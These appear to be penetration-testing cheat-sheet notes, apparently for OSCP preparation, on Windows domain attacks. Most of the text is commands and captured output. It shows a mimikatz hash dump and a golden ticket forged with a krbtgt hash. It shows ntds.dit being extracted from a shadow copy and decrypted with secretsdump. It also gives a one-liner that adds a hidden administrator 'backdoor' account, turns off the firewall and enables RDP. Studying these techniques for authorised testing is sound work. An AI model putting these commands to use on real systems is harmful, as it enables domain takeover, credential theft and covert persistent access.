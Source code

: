 #### Golden Ticket
Requisites:
1. Domain SID
2. krbtgt ntlm hash
3. an existent user account
4. Domain name

First, connect to a DC and run lsadump::lsa /patch to extract only ntlms including krbtgt.
```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::lsa /patch
Domain : CORP / S-1-5-21-1987370270-658905905-1781884369

RID  : 000001f4 (500)
User : Administrator
LM   :
NTLM : 2892d26cdf84d7a70e2eb3b9f05c425e

RID  : 000001f5 (501)
User : Guest
LM   :
NTLM :

RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : 1693c6cefafffc7af11ef34d1c788f47
...
```
Create a golden ticket with mimikatz and inject it in the current logon session:

Note: Remember to clean previous tickets before inject the golden ticket. 

```
mimikatz # kerberos::purge
Ticket(s) purge for current session is OK

mimikatz # kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt
User      : jen
Domain    : corp.com (CORP)
SID       : S-1-5-21-1987370270-658905905-1781884369
User Id   : 500    
Groups Id : *513 512 520 518 519
ServiceKey: 1693c6cefafffc7af11ef34d1c788f47 - rc4_hmac_nt
Lifetime  : 9/16/2022 2:15:57 AM ; 9/13/2032 2:15:57 AM ; 9/13/2032 2:15:57 AM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'jen @ corp.com' successfully submitted for current session

mimikatz # misc::cmd
```




#### Shadow Copies

This creates an entire copy of the c:\ drive and put it in a share.
We can extract the NTDS.dit database from the shadow copy using secretsdump.py.
We'll only need the HKLM/System key to be able to decrypt the ntds.dit.

```
C:\Tools>vshadow.exe -nw -p  C:

VSHADOW.EXE 3.0 - Volume Shadow Copy sample client.
Copyright (C) 2005 Microsoft Corporation. All rights reserved.


(Option: No-writers option detected)
(Option: Create shadow copy set)
- Setting the VSS context to: 0x00000010
Creating shadow set {f7f6d8dd-a555-477b-8be6-c9bd2eafb0c5} ...
- Adding volume \\?\Volume{bac86217-0fb1-4a10-8520-482676e08191}\ [C:\] to the shadow set...
Creating the shadow (DoSnapshotSet) ...
(Waiting for the asynchronous operation to finish...)
Shadow copy set succesfully created.

List of created shadow copies:


Querying all shadow copies with the SnapshotSetID {f7f6d8dd-a555-477b-8be6-c9bd2eafb0c5} ...

* SNAPSHOT ID = {c37217ab-e1c4-4245-9dfe-c81078180ae5} ...
   - Shadow copy Set: {f7f6d8dd-a555-477b-8be6-c9bd2eafb0c5}
   - Original count of shadow copies = 1
   - Original Volume name: \\?\Volume{bac86217-0fb1-4a10-8520-482676e08191}\ [C:\]
   - Creation Time: 9/19/2022 4:31:51 AM
   - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
   - Originating machine: DC1.corp.com
   - Service machine: DC1.corp.com
   - Not Exposed
   - Provider id: {b5946137-7b9f-4925-af80-51abd60b20d5}
   - Attributes:  Auto_Release No_Writers Differential


Snapshot creation done.
```

```
C:\Tools>copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak
   1 file(s) copied.
```
As a last ingredient, to correctly extract the content of **ntds.dit**, we need to save the SYSTEM hive from the Windows registry. We can accomplish this with the **reg** utility and the **save** argument.

```
C:\>reg.exe save hklm\system c:\system.bak
The operation completed successfully.
```
Once the two **.bak** files are moved to our Kali machine, we can continue extracting the credential materials with the _secretsdump_ tool from the impacket suite. We'll supply the ntds database and the system hive via **-ntds** and **-system**, respectively along with the **LOCAL** keyword to parse the files locally.

```
kali@kali:~$ impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
```






# Enabling RDP in one line CMD

This is very helpful during OSCP.

Change Username and Password.

### SIMPLER:
```
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v "fDenyTSConnections" /t REG_DWORD /d 0 /f

netsh advfirewall set allprofiles state off

```

## CMD

net user /add backdoor Backdoor123!! && net localgroup administrators backdoor /add & net localgroup "Remote Desktop Users" backdoor /add & netsh advfirewall firewall set rule group="remote desktop" new enable=Yes & reg add HKEY_LOCAL_MACHINE\Software\Microsoft\WindowsNT\CurrentVersion\Winlogon\SpecialAccounts\UserList /v backdoor /t REG_DWORD /d 0 & reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v TSEnabled /t REG_DWORD /d 1 /f & sc config TermService start= auto



```
xfreerdp /v:10.10.10.100 +clipboard /u:backdoor /p:Password123!! /cert-ignore /tls-seclevel:0   
```
### [](https://github.com/crazywifi/Enable-RDP-One-Liner-CMD#explain)

### Explain

Adding User: net user /add (Username) (Password)

#### [](https://github.com/crazywifi/Enable-RDP-One-Liner-CMD#adding-user-in-administrator-group)

#### Adding User in Administrator Group:

net localgroup administrators (Username) /add

#### [](https://github.com/crazywifi/Enable-RDP-One-Liner-CMD#adding-user-in-remote-desktop-users)

#### Adding user in Remote Desktop Users:

net localgroup "Remote Desktop Users" (Username) /add

#### [](https://github.com/crazywifi/Enable-RDP-One-Liner-CMD#opening-port-in-local-firewall)

#### Opening Port in Local Firewall:

netsh advfirewall firewall set rule group="remote desktop" new enable=Yes

#### [](https://github.com/crazywifi/Enable-RDP-One-Liner-CMD#hiding-user-from-window-login-screen)

#### Hiding User from Window Login Screen:

reg add HKEY_LOCAL_MACHINE\Software\Microsoft\WindowsNT\CurrentVersion\Winlogon\SpecialAccounts\UserList /v (Username) /t REG_DWORD /d 0

#### [](https://github.com/crazywifi/Enable-RDP-One-Liner-CMD#setting-terminal-service-in-startup-mode)

#### Setting Terminal Service in Startup Mode:

reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v TSEnabled /t REG_DWORD /d 1 /f

#### [](https://github.com/crazywifi/Enable-RDP-One-Liner-CMD#setting-terminal-service-in-auto-mode)

#### Setting Terminal Service in Auto Mode:

sc config TermService start= auto